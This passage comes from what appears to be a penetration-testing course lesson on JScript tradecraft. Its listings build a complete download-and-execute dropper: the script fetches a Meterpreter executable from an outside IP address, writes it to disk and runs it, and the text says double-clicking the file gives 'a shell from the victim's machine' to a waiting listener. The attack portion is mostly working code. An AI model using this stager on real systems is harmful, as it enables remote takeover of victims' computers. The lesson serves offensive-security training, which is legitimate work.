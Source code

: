 > Listing 6 - Saving the Meterpreter executable to disk

As a final step, we'll reuse the Windows Script Host Shell to execute the newly written Meterpreter executable.

```
var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

> Listing 7 - Running the Meterpreter executable

The complete Jscript code to download and execute our Meterpreter shell is displayed below:

```
var url = "http://192.168.251.151/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("met.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

> Listing 8 - Complete Jscript code to download and execute Meterpreter shell

After saving this code as a **.js** file, we only need to double-click it to get a 64-bit shell from the victim's machine to our awaiting multi/handler listener.

It is worth mentioning that Jscript supports proxy configuration via the _setProxy_[12](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_4938-12) method.

Now that we've covered the basics of Jscript, we'll again expand our tradecraft to implement an in-memory shellcode runner. Since there is no way to implement this directly in Jscript, we must rely on a second language.

1

(Wikipedia, 2019), [https://en.wikipedia.org/wiki/MSXML](https://en.wikipedia.org/wiki/MSXML) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_4938-1)

2

(Microsoft, 2016), [https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms767625(v%3Dvs.85)](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms767625%28v%3dvs.85%29) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_4938-2)
